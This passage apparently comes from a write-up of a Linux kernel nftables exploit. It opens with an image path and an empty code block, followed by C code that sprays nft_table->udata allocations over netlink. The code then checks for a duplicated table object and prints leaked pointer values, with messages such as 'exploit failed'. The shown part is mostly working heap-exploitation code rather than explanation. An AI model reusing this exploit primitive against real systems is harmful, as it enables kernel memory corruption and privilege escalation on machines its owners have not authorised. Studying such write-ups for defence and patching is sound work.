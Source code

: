 ```c
```

Now, we spray 3 `nft_table->udata` and check if we get a duplicate in `nft_table->udata`

```c
...
void udata_spray(struct mnl_socket *nl, uint32_t size, uint32_t start, uint32_t count, void *data)
{
    char spray_name[16];
    char udata_buf[size];
    char *dptr = &udata_buf;
    uint32_t seq = rand() % (UINT32_MAX / 2);
    struct mnl_nlmsg_batch *batch = mnl_nlmsg_batch_start(mnl_batch_buffer, mnl_batch_limit);
    nftnl_batch_begin(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    if (data)
    {
        dptr = data;
    }

    for (int i = start; i < start + count; i++)
    {
        if (!data)
        {
            memset(udata_buf, 0x30 + i, size);
        }
        snprintf(spray_name, sizeof(spray_name), "spray-%i", i);
        nftnl_table_free(create_table(batch, seq++, spray_name, dptr, size));
    }

    nftnl_batch_end(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    if (mnl_socket_sendto(nl, mnl_nlmsg_batch_head(batch),
                          mnl_nlmsg_batch_size(batch)) < 0)
    {
        perror("[-] mnl_socket_sendto");
    }
    mnl_nlmsg_batch_stop(batch);
}
...
 udata_spray(nl, 0xe8, 0, 3, NULL);

    char spray_name[16];
    char *udata[3];
    for (int i = 0; i < 3; i++)
    {
        snprintf(spray_name, sizeof(spray_name), "spray-%i", i);
        udata[i] = getudata(nl, spray_name);
    }
    if (udata[0][0] == udata[2][0])
    {
        printf("[+] table spray-0->udata 0x%lx\n" ,*(uint64_t*)&udata[0][0]);
        printf("[+] table spray-2->udata 0x%lx\n" ,*(uint64_t*)&udata[2][2]);

        puts("[+] got duplicated table");
    }
    else
    {
        puts("[-] exploit failed");
        return -1;
    }
...
```